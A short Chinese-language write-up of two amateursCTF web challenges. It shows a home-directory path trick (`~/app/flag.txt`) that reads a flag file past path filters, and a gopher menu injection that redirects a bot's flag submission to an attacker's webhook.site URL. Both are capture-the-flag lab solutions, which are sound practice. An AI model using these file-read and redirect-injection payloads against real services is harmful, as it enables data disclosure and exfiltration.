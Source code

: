 ## web/uwuctf

你说的对，我没了`/`没了`..`没了`./`我还是可以home啊

我就说怎么Dockerfile里面别的题目都是塞进`/srv/`里面这个塞进`/home/node/`里面

[https://uwuasaservice.amt.rs/uwuify?src=~/app/flag.txt](https://uwuasaservice.amt.rs/uwuify?src=~/app/flag.txt)

然后想办法解uwuify

```
amateuwsctf{so_wmao_this_fwag_is_gonna_be_a_wot_wongew_than_most_fwag_othew_fwags_good_wuck_have_fun_decoding_it_end_of_fwag}
```

然后要de-uwuify

```
amateursCTF{so_lmao_this_flag_is_gonna_be_a_lot_longer_than_most_flag_other_flags_good_luck_have_fun_decoding_it_end_of_flag}
```

好，看这样子解出来了，起码这个flag是符合英语部分语法的（（至少没有奇怪的数字和大小写混杂

## web/go-gopher

这题是注入，参考[RFC 1436](https://datatracker.ietf.org/doc/html/rfc1436)

用nc连一下

```
/m/s/w/A/w/go-gopher $ nc amt.rs 31290
1/submit/player
iWelcome to the flag submitter!         error.host      1
iPlease submit all your flags!          error.host      1
1Submit flags here!     /submit/user    ::      7000
0Get me more flags lackeys!!    URL:https://ctf.amateurs.team/  ::      7000
1Nice gopher proxy      /       gopher.floodgap.com     70
.
```

```
/m/s/w/A/w/go-gopher [SIGINT]$ nc amt.rs 31290
/submit/player
iHello player           error.host      1
iPlease send a post request containing your flag at the server down below.              error.host      1
0Submit here! (gopher doesn't have forms D:)    URL:http://amt.rs/gophers-catcher-not-in-scope  error.host      1
.
```

先用[webhook.site](https://webhook.site/)造个webhook

可以看到，非常简单的注入，就能让第三项变为我们的webhook

```
player		error.host	1
iText		error.host	1
0Submit here!	URL:http://webhook.site/a59b6079-5fc7-41de-a22e-0ad3a1d10e5a	error.host	1
iText1
```
